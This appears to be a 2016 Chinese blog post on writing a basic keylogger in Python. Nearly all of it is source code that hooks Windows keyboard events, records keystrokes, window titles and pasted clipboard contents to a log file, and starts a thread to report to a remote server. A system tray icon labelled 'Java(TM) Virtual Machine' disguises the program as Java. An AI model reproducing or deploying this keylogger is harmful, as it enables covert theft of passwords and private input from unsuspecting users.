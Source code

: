```yaml
---
title: py编写键盘记录器初步
author: Semprathlon / Simfae Dean
tags:
  - GUI
  - Python
categories:
  - Programing
abbrlink: 27b659b8
date: 2016-09-09 14:01:41
---
```

- 调用win32 API记录键盘事件、窗口事件

 
<pre class="lang:python decode:true " >#
def get_current_process():

    # 获取最上层的窗口句柄
    hwnd = user32.GetForegroundWindow()

    # 获取进程ID
    pid = c_ulong(0)
    user32.GetWindowThreadProcessId(hwnd,byref(pid))

    # 将进程ID存入变量中
    process_id = "%d" % pid.value

    # 申请内存
    executable = create_string_buffer("\x00"*512)
    h_process = kernel32.OpenProcess(0x400 | 0x10,False,pid)

    psapi.GetModuleBaseNameA(h_process,None,byref(executable),512)

    # 读取窗口标题
    windows_title = create_string_buffer("\x00"*512)
    length = user32.GetWindowTextA(hwnd,byref(windows_title),512)

    # 打印
    # print
    # print "[ PID:%s-%s-%s]" % (process_id,executable.value,windows_title.value)
    # print
    Thread(target=report_to_remote_server).start()
    output_file('','KeyLog.ini',"\n[ PID:%s-%s-%s] %s\n" % (process_id,executable.value,windows_title.value,time.strftime("%Y/%m/%d %H:%M:%S")));

    # 关闭handles
    kernel32.CloseHandle(hwnd)
    kernel32.CloseHandle(h_process)

# 定义击键监听事件函数
def KeyStroke(event):

    global current_window

    # 检测目标窗口是否转移(换了其他窗口就监听新的窗口)
    if event.WindowName != current_window:
        current_window = event.WindowName
        # 函数调用
        get_current_process()

    # 检测击键是否常规按键（非组合键等）
    if event.Ascii > 32 and event.Ascii <127:
        # print chr(event.Ascii),
        output_file('','KeyLog.ini',chr(event.Ascii))
    else:
        # 如果发现Ctrl+v（粘贴）事件，就把粘贴板内容记录下来
        if event.Key == "V":
            win32clipboard.OpenClipboard()
            pasted_value = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
            # print "[PASTE]-%s" % (pasted_value),
            output_file('','KeyLog.ini',"[PASTE]-%s" % (pasted_value))
        else:
            # print "[%s]" % event.Key,
            output_file('','KeyLog.ini',"[%s]" % event.Key)
    # 循环监听下一个击键事件
    return True

def RegisterKeyListener():
    # 创建并注册hook管理器
    kl = pyHook.HookManager()
    kl.KeyDown = KeyStroke

    # 注册hook并执行
    kl.HookKeyboard()
    pythoncom.PumpMessages()
</pre> 


但是对于QQEdit.exe，记录值会受到干扰。

- 日志记录

 
<pre class="lang:python decode:true " >def output_file(dir,name,content):
    fileName = ''
    if len(dir)>0:
        fileName = fileName+dir + "/"
    fileName = fileName + name#.encode('utf-8','ignore')
    f = open(fileName,"a")
    f.write(content)
    # print "Output file",fileName
</pre> 


- Tk GUI 

支持异步多线程操作的UI库

 
<pre class="lang:python decode:true " >class Tk_App:
    def __init__(self,master):
        #构造函数里传入一个父组件(master),创建一个Frame组件并显示
        frame = Frame(master)
        frame.pack()
        #创建两个button，并作为frame的一部分
        self.button = Button(frame, text="QUIT", fg="red", command=sys.exit)# frame.quit
        self.button.pack(side=LEFT) #此处side为LEFT表示将其放置 到frame剩余空间的最左方
        self.hi_there = Button(frame, text="Hello", command=self.say_hi)
        self.hi_there.pack(side=LEFT)
        # Thread(target=RegisterKeyListener).start()
        # sys.stdout.flush()

    def say_hi(self):
        print "hi there, this is a class example!"

TRAY_TOOLTIP = 'Java(TM) Virtual Machine'
TRAY_ICON = 'icon.png'


def create_menu_item(menu, label, func):
    item = wx.MenuItem(menu, -1, label)
    menu.Bind(wx.EVT_MENU, func, id=item.GetId())
    menu.AppendItem(item)
    return item


class TaskBarIcon(wx.TaskBarIcon):
    def __init__(self,frame):
        self.frame=frame
        super(TaskBarIcon, self).__init__()
        self.set_icon(TRAY_ICON)
        self.Bind(wx.EVT_TASKBAR_LEFT_DOWN, self.on_left_down)
        mainth.start();

    def CreatePopupMenu(self):
        menu = wx.Menu()
        # create_menu_item(menu, 'Say Hello', self.on_hello)
        create_menu_item(menu,'Control Panel',self.on_control);
        menu.AppendSeparator()
        create_menu_item(menu, 'Exit', self.on_exit)
        # create_menu_item(menu, 'Exit', sys.exit)
        return menu

    def set_icon(self, path):
        icon = wx.IconFromBitmap(wx.Bitmap(path))
        self.SetIcon(icon, TRAY_TOOLTIP)

    def on_left_down(self, event):
        print 'Tray icon was left-clicked.'

    def on_hello(self, event):
        print 'Hello, world!'


    def on_control(self,event):
        # print r'"%JAVA_HOME%\jre\bin\javacpl.exe"'
        # os.system(r'cd /d %JAVA_HOME%');
        os.system(r'""%JAVA_HOME%\jre\bin\javacpl.exe""');
        # print os.path.realpath(sys.argv[0])
        # print os.path.dirname(sys.argv[0])
        # print os.path.basename(sys.argv[0])

    def on_exit(self, event):
        wx.CallAfter(self.Destroy)
        self.frame.Close()
        mainth._Thread__stop()
        # sys.exit()

class App(wx.App):
    def OnInit(self):
        frame=wx.Frame(None)
        self.SetTopWindow(frame)
        TaskBarIcon(frame)
        return True
</pre> 
